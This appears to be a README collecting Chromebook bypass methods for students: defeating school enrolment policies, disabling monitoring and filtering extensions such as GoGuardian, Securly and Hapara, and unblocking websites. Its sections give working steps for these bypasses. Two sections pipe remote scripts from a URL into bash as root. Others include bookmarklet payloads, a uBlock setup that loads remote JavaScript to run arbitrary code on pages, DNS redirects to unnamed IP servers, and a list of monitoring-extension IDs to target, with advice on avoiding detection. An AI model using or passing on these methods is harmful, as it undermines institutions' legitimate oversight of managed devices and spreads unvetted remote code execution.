**Only works if you have your gmail saved into your chromebook like those who have their gmail saved in their chromebook, so like when you sign out, your pfp would be there and you would only need to type your password basically if it shows usernames and photos on the sign-in screen is enabled by admin.**

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile</summary>

**Fakemurk is a script that is able to run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the chrome web store and google play store. This basically provides a personal Chromebook-like experience, while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

**DEV MODE ONLY**

Normal Use
open crosh

```
run shell
run sudo su
run
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```

then press alt+vol_up+x

to make your own modifactions refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: <a href="https://github.com/MercuryWorkshop/Pollen">Pollen GitHub</a> 

It removes all admin installed extensions and thats kinda a problem for everyone so fruvs (op) edited it to make it fit more for SH1mmer users because fruvs (op) already got caught once cause he got snitched on.

So fruvs (op) customized this one to edit lots of features. But to keep all admin installed extensions so no one get's caught. So fruvs (op) edited some

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation: (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs: (set it so when you open a new window some schools forces it to also open the schools homepage so                                                          its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
```
Run
```
sudo su
```

Run 
```
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press 
```
alt+vol_up+x
```

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO RE DO THE PROCESS

</details>

<details>
<summary><b>Fusion 360 exploit</b> Unblocked browser</summary>

**Some schools have Fusion360 already downloaded and if it isn’t, then download it through the play store. This exploit opens an unblocked browser inside of Fusion.** 

What you do is on the sign-up page, click terms of service. Then there is a YT logo at the bottom. Click it to go to the social media page. Next, click Autodesk under the YouTube text. Using this method, you get unblocked YT! For unblocked google, just look up “google.com link is description”. Go to the description and click google.com. Done! 

The admin can remove apps, so it can still be blocked.

</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit <a href="https://tinyurl.com/AddSession">tinyurl.com/AddSession</a> or <a href="https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession">this link</a>
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

**This was discovered by zoroark and Brandon421-ops**

</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode is blocked press enter then you will go to a newly restarted chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to `chrome://settings/signOut`

8. click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

Note: Before you do any of this do it at home so that way you don have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.

2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put `chrome://kill` now save that bookmark.

4. Create another bookmark called D click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

This workaround was found by <a href="https://github.com/Brandon421-ops">Brandon421-ops</a>

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

2. Go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

3. Do `search`+`esc` now that should open task manager if `search`+`esc` doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.

4. Find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html`), scroll down and find `userResourcesLocation` now change `userResourcesLocation` from `unset` to <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js">https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js</a>

5. in the My filters tab of the settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html`), add `*##+js(execute_script.js)` as a filter

6. now you can press `ctrl`+`alt`+`~` to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

<details>
<summary><b>Snap&Run</b> Run Code On Pages</summary>

**Executing scripts with the "Snap&Read" extension.**

**Extension <a href="https://chromewebstore.google.com/detail/snapread/mloajfnmjckfjbeeofcdaecbelnblden">Snap&Read</a> must be installed to perform this exploit.**

### Setup
The extension needs to be signed in to an active Snap&Read account before you begin.

**Instructions.**

**Enable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

1. Open the Snap&Read popup by activating the extension.

2. In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

3. In the Snap&Read toolbar, click the Show outlines  button.

4. In the Snap&Read outlines panel, click the New outline (+) button at the top left.

5. Enter any text into the outline topic's editable text area.

6. Click the bullet point of the topic.

7. Click the Link to source  option.

8. Click the plus (+) button at the bottom right.

9. Click and switch to the WEBSITE tab.

10. In the Article/Page title input field, enter the name of your chosen bookmarklet.

11. In the URL input field, enter the source of the bookmarklet, starting with `javascript:`.

**Important:** You may need to substitute escape characters for advanced bookmarklets.

12. Click SAVE at the top right.

13. Click and switch to the OUTLINE tab.

14. In the Snap&Read toolbar, click the Hide outlines  button.

### Script Execution

**Instructions**

Follow on a page of your choice.

1. In the Snap&Read toolbar, click the Show outlines  button.

2. In your created outline, click the link separated by parenthasis that contains the bookmarklet.

3. In the Snap&Read toolbar, click the Hide outlines  button.

4. Disable the Snap&Read toolbar

5. Open the Snap&Read popup by activating the extension.

6. In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

**Disable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

</details>

<details>
<summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in the IP Server.

Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Incognito On The Sign-In Screen</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. On the sign-in screen go to your wifi settings and click on the wifi your using rn

Step 2. Then Scroll down until you see network once you see the option click it.

Step 3. Scroll down until you find custom name servers now once you find the option click it.

Step 4. Paste in the IP Server.

Step 5. Now on the network settings click the sign in and now you should be in a small window some instructions and there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Chrome-Signin Webview</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6. Click the github logo

Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
<summary><b>Chrome-Signin Webview 2</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6 Click forgot password instead of github logo

Step 7. Click docs

Step 8. Scroll down

Step 9. Click ask the GitHub community

Step 10. Search google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, then if it doesn't already, go back to that link

Then, hit Launch VM Mode See images attached if needed

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but discord 100% works

Thanks to a user in TN, I was informed the best vpn to get around the FortiNet thing "Greenhub" on the Edge add-ons 

</details>

<details>
<summary><b>Quick View</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If `javascript://` is blocked then you can't preform this exploit

Credit to <a href="https://ading.dev/">ading2210</a> and <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a> for finding this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original github repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here's the forked github repo of the buypass exploit: <a href="https://github.com/Brandon421-ops/buypass">Brandon421-ops's Forked Buypass Exploit Github Repo</a>

Here's 3 alternative websites of the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one

Step 2. Open it

Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus

Step 4. After you click goto select your district in the bottom right corner of the page

Step 5. Select “STRATFORD FRIENDS SCHOOL” 

Step 6. Click the arrow to the right of the selection box

Step 7. Click sign in options
a) Click sign in with github

Step  8. Click the github logo at the top of the screen

Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay

Step 11. Scroll down until you see DerDer56/googleyay

Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool

(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"

Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh and vmc</summary>

### Requirements
- A managed Chromebook with crosh enabled
- The `VmManagementCliAllowed` policy either unset or set to true
- Some form of removable media for noting down extension IDs (only useful for the second method and not required, but this prevents you from mistyping an extension ID).
- A willingness to powerwash

### There are two variations to this method:
1. Disabling all extensions. This is probably the most reliable, but you'd be left without useful extensions such as any adblockers. You also aren't able to install anything from the Chrome Web Store either.

2. Disabling specific extensions. This is less reliable, since this only becomes possible once Chrome OS has installed at least one extension already, which could be one that you're trying to disable.

### Testing if the method is possible:
1. Open crosh by hitting `ctrl`+`alt`+`t`
. If a command line pops up then you have crosh enabled and you can move on to step 2.

2. Test the `VmManagementCliAllowed` policy by running the `vmc` command. If a list of subcommands is shown, then you're good to go.

### Instructions:
1. Back up any data you want before the powerwash.

2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.

3. Powerwash by attempting to enable developer mode. Instructions are available <a href="https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode">here</a>.

4. Log into your Google account as normal, but immediately disable your internet right after you sign in.

5. You should be logged into your account, but without any extensions installed due to being offline.

6. Here the instructions are split, so follow the one for the method that you want to do.
 
### Disable All Extensions:
1. Open up crosh by hitting `ctrl`+`alt`+`t`

2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`

3. Run that command.

4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.

5. Re-enable your internet, and no extensions should be installed.
 

### Disable Specific Extensions:
1. Navigate to `chrome://extensions`.

2. Enable your internet, and immediately disable it when an extension is installed.

3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.

4. Open up crosh by hitting `ctrl`+`alt`+`t`.

5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`

6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`

7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Credit to <a href="https://ading.dev/">ading2210</a> for finding this exploit

</details>

<details>
<summary><b>GoGuardian Fever</b> Disable GoGuardian</summary>

IF YOU DO NOT HAVE GOGUARDIAN THIS EXPLOIT WILL NOT WORK FOR YOU
Getting Started

1. Obviously (but still needs to be said due to skids in Titanium Network), make sure GoGuardian is actually installed

2. Visit any of the links and copy the text in it and paste it in a newtab <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/GoGuardian%20Fever.txt">Link 1</a> <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/GoGuardian%20Fever.txt">Link 2</a> <a href="https://pastebin.com/raw/ytcMuigM">Link 3</a>

3. On that tab there will be a simple white screen with nothing on it, reload the page

4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)

5. Visit `chrome://restart` to clear cached sites from GoGuardian

Enjoy a free browsing context

To undo

1. On <a href="https://goguardian.com">goguardian.com</a>, press the lock icon at the top left of the screen

2. Press cookies and site data

3. Click manage cookies

4. Then click clear each site's cookies you see there

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>GoGuardian TabCrash</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**Teacher's can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`

2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.

3. It might ask if you want to leave this page, this is goguardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.

4. Enjoy your unblocked stay!

To undo: close all of your `about:blank` tabs

#### Discovered by @py660

</details>

<details>
<summary><b>GoGuardian TabCrash 2</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**If your teacher has turned on the tab limit you can bypass this with an extension. If the extension is blocked, sorry.**

Step 1. Download the extension <a href="https://chromewebstore.google.com/detail/read-aloud-a-text-to-spee/hdhinadidafjejdhmfkjgnolgimiaplp">Read Aloud: A Text to Speech Voice Reader</a>

Step 2. Use one of your tabs to go to IReady or Scratch. You just need a site that would display the error when you close the tab "Are you sure you want to close this site? Unsaved changes could be lost." 

Step 3. When you have the site with unsaved changes, click the extension until you see the error. Click cancel on the error.

Step 4. The extension should have opened some tabs which say: "Read Aloud uses this tab for audio playback."

Step 5. If you saw the error and clicked cancel, you should have bypassed the tab limit.

</details>

<details>
<summary><b>Insecurly</b> Toggle the Securly extension</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://www.disablesecurly.com/">this link</a> and follow instructions

If blocked then go cry in a corner

Credit to <a href="https://www.buymeacoffee.com/bypassi">Bypassi#7037</a> for finding/Making this exploit

</details>

<details>
<summary><b>A Bypass For Securly and a few of other blocker extensions</b> Manipulate any website so securly or any other blocker extension can't block it</summary>

At any URL put #translate.google.com at the end of it or put ?suicidepreventionlifeline.org at the end of it and bam you just unblocked a website by Manipulating the URL

This only works for securly and some other blocker extensions

</details>

<details>
<summary><b>Glitch through securly</b> Unblock any website blocked from securly</summary>

**This only works if your admin/school uses securly. Not sure if this can be blocked or not. So im going to do this step by step**

1. Go to the blocked site you want to access

2. Once it shows the blocked page copy the url it shows

3. Go to the url bar and delete everything between https:// and the first "?"

4. Paste the website url

5. press enter and voila it should be unblocked

6. Have fun

confirmed working with xbox cloud gaming and now.gg

If it doesn't work then go cry.

</details>

<details>  
<summary><b>SOT Exploit</b> Unblock any website or Open any website in a about:blank page</summary>

1. Download this extension <a href="https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall">One Tab</a>

2. Click the import button in the settings tab.

3. Copy-paste the URL you wish to visit about 100 times, and then click import.

4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to <a href="https://github.com/Coding4Hours">Coding4Hours</a>

</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner

</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: <a href="filtersessionbypass.txt">filtersessionbypass.txt</a>

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.

</details>

<details>  
<summary><b>Hapara Lock Screen Bypass</b> Bypass Hapara Lock Screen</summary>

1. Make bookmarks of pages you want to visit beforehand.

2. Once your screen is paused, spam unfullscreen. Each time you do, you should see your tabs and bookmark bar come back. Attempt to right-click on the bookmarks bar until a menu shows up.

3. In the menu, select “Add folder”. Name it whatever you like. Hit Done. With luck, your tabs and bookmarks should stay at the top of your screen. If not, try again.

4. Once the tab and bookmarks bar stays, spam-click one of the bookmarks you made. This lags Hapara into displaying your page instead of the pause page. Turn off your wifi as soon as the page fully loads. This stops data flow between your amd the teacher’s computer, so that they can’t re-pause your screen.

</details>

<details>
<summary><b>Network Bypassing Via DNS</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

IP Server 1: 8.8.8.8 in all boxes

IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth box stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in one of the IP Server's.

Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work your screwed

</details>

<details>  
<summary><b>Network Bypassing Via VPN</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 

</details>

<details>  
<summary><b>Extension ID's</b> </summary>

|Extension Name|Extension ID|
|--------------|------------|
|GoGuardian|`haldlgldplgnggkjaafhelgiaglafanh`|
|Mobile Guardian (installed)|`fgmafhdohjkdhfaacgbgclmfgkgokgmb`|
|<a href="https://chrome.google.com/webstore/detail/mobile-guardian/nglbmaiijljohnphofifiodoommladkj">Mobile Guardian (setup)</a>|`nglbmaiijljohnphofifiodoommladkj`|
|<a href="https://chrome.google.com/webstore/detail/securly-for-chromebooks/iheobagjkfklnlikgihanlhcddjoihkg">Securly (webstore)</a>|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly|`joflmkccibkooplaeoinecjbmdebglab`|
|Securly (old)|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly Classroom|`jfbecfmiegcjddenjhlbhlikcbfmnafd`|
|<a href="https://chrome.google.com/webstore/detail/blocksi-enterprise-editio/ghlpmldmjjhmdgmneoaibbegkjjbonbk">Blocksi</a>|`pgmjaihnmedpcdkjcgigocogcbffgkbn`|
|<a href="https://chrome.google.com/webstore/detail/iboss-cloud-enterprise/kmffehbidlalibfeklaefnckpidbodff">iBoss</a>|`kmffehbidlalibfeklaefnckpidbodff`|
|<a href="https://chrome.google.com/webstore/detail/forticlient-chromebook-we/igbgpehnbmhgdgjbhkkpedommgmfbeao">Fortiguard</a>|`igbgpehnbmhgdgjbhkkpedommgmfbeao`|
|<a href="https://chrome.google.com/webstore/detail/cisco-umbrella-chromebook/jcdhmojfecjfmbdpchihbeilohgnbdci">Cisco Umbrella</a>|`jcdhmojfecjfmbdpchihbeilohgnbdci`|
|NetRef|`khfdeghnhlpdfeenmdofgcbilkngngcp`|
|<a href="https://chrome.google.com/webstore/detail/ckauthenticator/jdogphakondfdmcanpapfahkdomaicfa">ContentKeeper</a>|`jdogphakondfdmcanpapfahkdomaicfa`|
|CK-Authenticator G3|`odoanpnonilogofggaohhkdkdgbhdljp`|
|<a href="https://chrome.google.com/webstore/detail/hapara-highlights-extensi/kbohafcopfpigkjdimdcdgenlhkmhbnc">Hapara</a>|`kbohafcopfpigkjdimdcdgenlhkmhbnc`|
|Smoothwall|`jbldkhfglmgeihlcaeliadhipokhocnm`|
|Linewize|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-air-chrome-exte/baleiojnjpgeojohhhfbichcodgljmnj">LANSchool</a>|`baleiojnjpgeojohhhfbichcodgljmnj`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-web-helper/honjcnefekfnompampcpmcdadibmjhlk">LanSchool Web Helper</a>|`honjcnefekfnompampcpmcdadibmjhlk`|
|Lightspeed Filter Agent|`adkcpkpghahmbopkjchobieckeoaoeem`|
|Lightspeed Device Insider Agent|`njdniclgegijdcdliklgieicanpmcngj`|
|<a href="https://chrome.google.com/webstore/detail/interclass-filtering-serv/jbddgjglgkkneonnineaohdhabjbgopi">InterCLASS Filtering Service</a>|`jbddgjglgkkneonnineaohdhabjbgopi`|
|<a href="https://chrome.google.com/webstore/detail/imtlazarusv16/cgigopjakkeclhggchgnhmpmhghcbnaf">IMTLazarus</a>|`cgigopjakkeclhggchgnhmpmhghcbnaf`| 
|<a href="https://chrome.google.com/webstore/detail/impero-backdrop/jjpmjccpemllnmgiaojaocgnakpmfgjg">Impero Backdrop</a>|`jjpmjccpemllnmgiaojaocgnakpmfgjg`|
|<a href="https://chrome.google.com/webstore/detail/intersafe-gatewayconnecti/ecjoghccnjlodjlmkgmnbnkdcbnjgden">InterSafe GatewayConnection Agent</a>|`ecjoghccnjlodjlmkgmnbnkdcbnjgden`| 
|<a href="https://chrome.google.com/webstore/detail/gopher-buddy/cgbbbjmgdpnifijconhamggjehlamcif">Gopher Buddy</a>|`cgbbbjmgdpnifijconhamggjehlamcif`|
|<a href="https://chrome.google.com/webstore/detail/connect-for-chrome-educat/ddfbkhpmcdbciejenfcolaaiebnjcbfc">Connect for Chrome - Education</a>|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|

If your blocker is not on this list: go to `chrome://extensions`, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=). 
Here's all the good places to find your Blocker id 
